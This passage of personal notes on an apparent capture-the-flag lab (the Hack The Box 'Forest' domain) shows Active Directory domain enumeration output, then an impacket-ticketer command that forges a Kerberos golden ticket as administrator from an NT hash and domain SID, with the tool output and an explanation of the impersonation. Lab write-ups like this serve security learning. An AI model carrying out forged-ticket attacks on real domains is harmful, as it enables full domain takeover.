 ```
DeletedObjectsContainer            : CN=Deleted Objects,DC=htb,DC=local
DistinguishedName                  : DC=htb,DC=local
DNSRoot                            : htb.local
DomainControllersContainer         : OU=Domain Controllers,DC=htb,DC=local
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-3072663084-364016917-1341370565
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=htb,DC=local
Forest                             : htb.local
InfrastructureMaster               : FOREST.htb.local
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=htb,DC=local}
LostAndFoundContainer              : CN=LostAndFound,DC=htb,DC=local
ManagedBy                          :
Name                               : htb
NetBIOSName                        : HTB
ObjectClass                        : domainDNS
ObjectGUID                         : dff0c71a-a949-4b26-8c7b-52e3e2cb6eab
ParentDomain                       :
PDCEmulator                        : FOREST.htb.local
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=htb,DC=local
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {FOREST.htb.local}
RIDMaster                          : FOREST.htb.local
SubordinateReferences              : {DC=ForestDnsZones,DC=htb,DC=local, DC=DomainDnsZones,DC=htb,DC=local, CN=Configuration,DC=htb,DC=local}
SystemsContainer                   : CN=System,DC=htb,DC=local
UsersContainer                     : CN=Users,DC=htb,DC=local
```
	- For output1, the 1147 is the identifier for user so the SID excludes that)
- ticketer to grab ticket
	```bash
impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local administrator

---OUTPUT---
...
datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
/usr/share/doc/python3-impacket/examples/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in administrator.ccache
```
	- You could change the user to anything instead of administrator and it should work because we are creating our own ticket
		- What happens is since its signed by the domain the machine won't check since if its signed by the domain it must be authorized and that's how we impersonate admin. the ticket is what matters not the username we set.
- I also added forest and htb to /etc/hosts
	- why? the spn name htb.local wasn't working.
		- says something about the name not being found on the database
			- maybe the database is on the remote server.
```